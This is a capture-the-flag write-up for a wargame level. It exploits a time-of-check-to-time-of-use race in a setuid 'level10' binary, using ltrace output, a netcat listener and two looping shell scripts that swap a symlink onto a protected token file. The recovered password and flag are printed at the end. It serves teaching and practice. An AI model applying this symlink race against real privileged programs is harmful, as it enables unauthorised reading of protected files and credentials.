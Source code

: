 We find in the **home** folder a **token** file and a **level10** binary which, if we launch it, displays a :
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token IP
You don't have access to token
</code></pre>
> It is assumed that the host is the ip on which the machine is running (<code>ifconfig</code>)

We create a file in /tmp which will have our rights, and which can be sent :
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test IP
Connecting to IP:6969 .. Unable to connect to host IP
</code></pre>

We try to find out what happens in the binary with a valid :
<pre><code>> ltrace ./level10 /tmp/test IP
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "IP")= 35
fflush(0xb7fd1a20Connecting to IP:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("IP")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "IP"Unable to connect to host IP)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

We can see that the **access** command is used, but we know from the man that this command has a flaw
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

In addition, there is an attempt to connect to port 6969, which is not active
In order for the requests to do so, you have to listen to the port with :
<pre><code>> nc -lk 6969</code></pre>
And if we re-launch our order :
<pre><code>> ./level10 /tmp/test IP
Connecting to IP:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> It takes 2 terminals to perform this manipulation in order to see the result of the listening which, in this example, gives us :
> <pre><code>.*( )*.
> test</code></pre>

So we will try to exploit the **race-condition-vulnerability**, with 2 scripts:

### /tmp/loop.sh
```bash
# This script launches the request to send a file in a loop
while true;
do
	/home/user/level10/level10 /tmp/link IP > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link IP > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# This script creates a file on which we have the rights and makes a symbolic link of the token file in a loop
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Just run both in the background and watch the second terminal listening to port 6969 while waiting for the two scripts to run close enough for the **race-condition-vulnerability** to be exploited :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
</code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

We test the password :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

You get the magic phrase **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>